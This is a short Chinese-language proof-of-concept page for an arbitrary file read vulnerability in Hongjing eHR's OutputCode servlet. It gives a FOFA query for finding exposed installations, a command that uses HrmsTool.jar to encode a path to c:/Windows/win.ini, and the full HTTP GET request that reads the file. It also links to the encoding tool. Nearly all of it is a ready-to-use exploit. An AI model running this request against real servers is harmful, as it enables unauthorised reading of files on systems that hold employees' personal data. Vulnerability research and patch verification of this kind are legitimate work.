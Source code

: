 # 宏景 eHR-OutputCode 存在任意文件读取漏洞

## 资产搜索

fofa  `app="HJSOFT-HCM"`

## POC：

1. 生成payload（使用java8）

java -jar [HrmsTool.jar](file/HrmsTool.jar) -e c:/Windows/win.ini

![](img/encode.png)

2. 

```http
GET /servlet/OutputCode?path=MrEzLLE8pPjFvPfyPAATTP2HJFPAATTPTwqF7eJiXGeHU4B HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
```

![](img/readFile.png)

3. 加密工具地址：https://github.com/vaycore/HrmsTool/releases/tag/0.1
